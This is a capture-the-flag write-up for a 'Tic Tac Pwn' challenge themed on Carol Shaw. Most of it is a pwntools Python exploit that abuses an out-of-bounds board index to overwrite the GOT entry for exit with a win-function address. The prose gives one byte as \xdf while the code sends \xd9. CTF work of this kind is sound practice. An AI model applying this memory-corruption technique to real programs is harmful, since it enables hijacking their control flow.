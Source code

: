 # Carol Shaw #

## Prompt

[Carol Shaw](https://en.wikipedia.org/wiki/Carol_Shaw) (born 1955) is one of the first female game designers and programmers in the video game industry.She is best known for creating the Atari 2600 vertically scrolling shooter River Raid (1982) for Activision. She worked for Atari, Inc. from 1978 to 1980 where she designed multiple games including 3-D Tic-Tac-Toe (1978) and Video Checkers (1980), both for the Atari VCS before it was renamed to the 2600. She left game development in 1984 and retired in 1990. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Carol_Shaw)

Chal: Play Tic Tac Pwn and return the flag to [this video game pioneer](https://www.youtube.com/watch?v=GtIIaTeMspU)

## Solution

There is an array index abuse issue that you can write outside the bounds of the board variable. Since there is a ``win`` function at 0x4011df, you can just overwrite the ``got`` entry for ``exit`` by changing your character to ``\x40,\x11,\xdf`` on three separate games and writing to the appropriate offsets from the ``got[exit]-board`` entries.

```python
from pwn import *

binary = './tic-tac-toe.bin'

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('0.cloud.chals.io',27824)
    else:
        return process(e.path)

p = start()

def lose_game(b,pos):
   p.sendlineafter(b'>>>',b)
   p.sendlineafter(b'>>>',b'-1 %i' %pos)
   p.sendlineafter(b'>>>',b'0 0')
   p.sendlineafter(b'>>>',b'-1 %i' %pos)
   p.sendlineafter(b'>>>',b'0 1')
   p.sendlineafter(b'>>>',b'-1 %i' %pos)
   p.sendlineafter(b'>>>',b'0 2')


lose_game(b'\x40',-83)
p.sendlineafter(b'>>>',b'Y')
lose_game(b'B',-77)
p.sendlineafter(b'>>>',b'Y')

lose_game(b'\x11',-84)
p.sendlineafter(b'>>>',b'Y')
lose_game(b'B',-77)
p.sendlineafter(b'>>>',b'Y')

lose_game(b'\xd9',-85)
p.sendlineafter(b'>>>',b'N')


p.interactive()
```
